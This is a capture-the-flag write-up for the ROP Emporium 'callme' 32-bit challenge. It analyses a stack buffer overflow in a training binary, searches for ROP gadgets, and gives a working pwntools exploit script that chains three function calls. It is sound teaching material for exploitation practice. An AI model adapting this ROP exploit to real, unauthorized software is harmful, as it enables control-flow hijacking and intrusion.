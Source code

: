 # callme - 32 Bit
Program execution:
```
callme by ROP Emporium
x86

Hope you read the instructions...

> <input_here>
```
Run checksec: `checksec ./callme32`
```
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```
Same as usual, `main` calls `pwnme` which has a buffer overflow vulnerability due to unsafe usage of `read`. In this case 0x200 bytes can be read into a 32 byte buffer starting at address `ebp-0x28`:
```assembly
sub     esp, 0x4
push    0x200 {var_34}
lea     eax, [ebp-0x28 {var_2c}]
push    eax {var_2c} {var_38}
push    0x0
call    read
```
With the knowledge we can control code flow, we can go about following the given instructions. We need to call `callme_one`, `callme_two` and `callme_three`. For each call there are 3 parameters: `0xdeadbeef`, `0xcafebabe`, `0xd00df00d`.

To do the first function call we know we can structure our payload as:
* 0x2c bytes of padding
* p32(`callme_one` address)
* function to call after `callme_one` finishes
* `0xdeadbeef`
* `0xcafebabe`
* `0xd00df00d`

However, we can't just put the address of `callme_two` as the return address for `callme_one` because then the return address of `callme_two` would be `0xdeadbeef` and the first argument would be `0xcafebabe`. So instead, we need a ROP gadget that will pop all the arguments off the stack (3 args) and then `ret` into next address which we will set as the address of `callme_two`. Let's find a suitable gadget with `ropper`.
`ropper -f callme32 --search 'pop'`:
```
[INFO] Load gadgets from cache
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%
[INFO] Searching for gadgets: pop

[INFO] File: callme32
0x080487fb: pop ebp; ret;
0x080487f8: pop ebx; pop esi; pop edi; pop ebp; ret;
0x080484ad: pop ebx; ret;
0x080487fa: pop edi; pop ebp; ret;
0x080487f9: pop esi; pop edi; pop ebp; ret;
0x08048810: pop ss; add byte ptr [eax], al; add esp, 8; pop ebx; ret;
0x080486ea: popal; cld; ret;
```
We need to pop 3 items off the stack, so `pop esi; pop edi; pop ebp; ret;` looks like a good fit for us to use as the gadget to return to, from `callme_one`.
Then we repeat this structure to call the other two functions.

Exploit script:
```python
#!/usr/bin/python3

from pwn import *

PROG_NAME = "./callme32"

p = process(PROG_NAME)
elf = p.elf
rop = ROP(elf)

if args.ATTACH:
	gdb.attach(p, '''break main''')

pop_esi_edi_ebp_addr = rop.find_gadget(['pop esi', 'pop edi', 'pop ebp', 'ret'])[0]

p.recvuntil(b'> ')

payload = b'A' * (0x28 + 0x4)

for func in ['callme_one', 'callme_two', 'callme_three']:
	payload += p32(elf.symbols[func])
	payload += p32(pop_esi_edi_ebp_addr)
	payload += p32(0xdeadbeef)
	payload += p32(0xcafebabe)
	payload += p32(0xd00df00d)

p.sendline(payload)

p.interactive()
```

And we get the flag:
```
Thank you!
callme_one() called correctly
callme_two() called correctly
ROPE{a_placeholder_32byte_flag!}
```
